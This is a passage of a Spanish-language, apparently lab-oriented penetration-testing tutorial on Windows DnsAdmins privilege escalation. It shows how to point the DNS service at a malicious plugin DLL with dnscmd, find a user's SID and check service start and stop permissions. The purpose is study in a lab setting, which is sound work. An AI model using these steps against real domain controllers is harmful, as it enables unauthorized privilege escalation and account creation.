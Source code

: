   Dnsadmins

```cmd-session
C:\htb> dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\Desktop\adduser.dll

Registry property serverlevelplugindll successfully reset.
Command completed successfully.
```

Nota: Debemos especificar la ruta completa a nuestra DLL personalizada o el ataque no funcionará correctamente.

Solo el`dnscmd`La utilidad puede ser utilizada por miembros del`DnsAdmins`Grupo, ya que no tienen permiso directamente en la clave de registro.

Con la configuración del registro que contiene la ruta de nuestro complemento malicioso configurado, y nuestra carga útil creada, la DLL se cargará la próxima vez que se inicie el servicio DNS. La membresía en el grupo DNSadmins no da la capacidad de reiniciar el servicio DNS, pero esto es posiblemente algo que Sysadmins podría permitir que los administradores del DNS hagan.

Después de reiniciar el servicio DNS (si nuestro usuario tiene este nivel de acceso), deberíamos poder ejecutar nuestra DLL personalizada y agregar un usuario (en nuestro caso) o obtener un shell inverso. Si no tenemos acceso para reiniciar el servidor DNS, tendremos que esperar hasta que el servidor o el servicio se reinicie. Verifiquemos los permisos de nuestro usuario actual en el servicio DNS.

#### Encontrar el SID del usuario

Primero, necesitamos el SID de nuestro usuario.

  Dnsadmins

```cmd-session
C:\htb> wmic useraccount where name="netadm" get sid

SID
S-1-5-21-669053619-2741956077-1013132368-1109
```

#### Comprobación de permisos en el servicio DNS

Una vez que tenemos el SID del usuario, podemos usar el`sc`Comando para verificar los permisos en el servicio. Por esto[artículo](https://www.winhelponline.com/blog/view-edit-service-permissions-windows/), podemos ver que nuestro usuario tiene`RPWP`permisos que se traducen a`SERVICE_START`y`SERVICE_STOP`, respectivamente.

  Dnsadmins

```cmd-session
C:\htb> sc.exe sdshow DNS

D:(A;;CCLCSWLOCRRC;;;IU)(A;;CCLCSWLOCRRC;;;SU)(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;SO)(A;;RPWP;;;S-1-5-21-669053619-2741956077-1013132368-1109)S:(AU;FA;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;WD)
```

Mira el`Windows Fundamentals`Módulo para una explicación de la sintaxis SDDL en Windows.
